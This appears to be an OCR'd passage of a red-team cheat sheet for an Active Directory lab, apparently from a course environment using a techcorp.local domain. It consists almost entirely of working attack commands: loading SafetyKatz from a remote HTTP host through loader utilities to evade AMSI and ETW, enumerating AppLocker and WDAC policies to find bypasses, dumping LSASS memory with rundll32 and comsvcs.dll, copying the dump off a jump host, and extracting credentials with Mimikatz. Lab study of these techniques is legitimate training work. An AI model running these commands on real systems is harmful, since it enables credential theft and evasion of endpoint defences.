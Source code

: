     # Bypass AMSI and ETW based detection by loading the binary using loader utility
    C:\Users\Public\Loader.exe -path http://192.168.100.X/SafetyKatz.exe
    C:\Users\Public\AssemblyLoad.exe http://192.168.100.X/Loader.exe -path http://192.168.100.X/SafetyKatz.exe

    3. Applocker & WDAC Bypas

    # Check if Powershell is running in Constrained Language Mode (It may be because of Applocker or WDAC)
    $ExecutionContext.SessionState.LanguageMode

    # Check applocker policy for Application Whitelisting via Powerview and Registry (reg.exe)
    Get-AppLockerPolicy –Effective
    Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
    Get-ChildItem "HKLM:Software\Policies\Microsoft\Windows\SrpV2"
    Get-ChildItem "HKLM:Software\Policies\Microsoft\Windows\SrpV2\Exe"
    reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2

    # Identify the GPO Policy responsible Applocker
    Get-DomainGPO -Domain us.techcorp.local | ? { $_.DisplayName -like "*PAW*" } | select displayname, gpcfilesyspath

    # Download the GPO Registry Policy file from sysvol share on AD to view applocker policy details
    type "\\us.techcorp.local\SysVol\us.techcorp.local\Policies\{AFC6881A-5AB6-41D0-91C6-F2390899F102}\Machine\Registry.pol"

    # Based on policy we need to identify the bypass technique for Applocker (like Whitelisted path)
    Get-Acl C:\Windows\Tasks | fl

    # Check Windows Device Guard (WDAC) enforcement policy
    wmi
    Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard

    # Bypass for WDAC using rundll32.exe and comsvcs.dll to dump the lsass process
    tasklist /FI "IMAGENAME eq lsass.exe"
    rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 708 C:\Users\Public\lsass.dmp full
    echo F | xcopy \\us-jump\C$\Users\Public\lsass.dmp C:\AD\Tools\lsass.dmp
    Invoke-Mimikatz -Command "sekurlsa::minidump C:\AD\Tools\lsass.DMP"
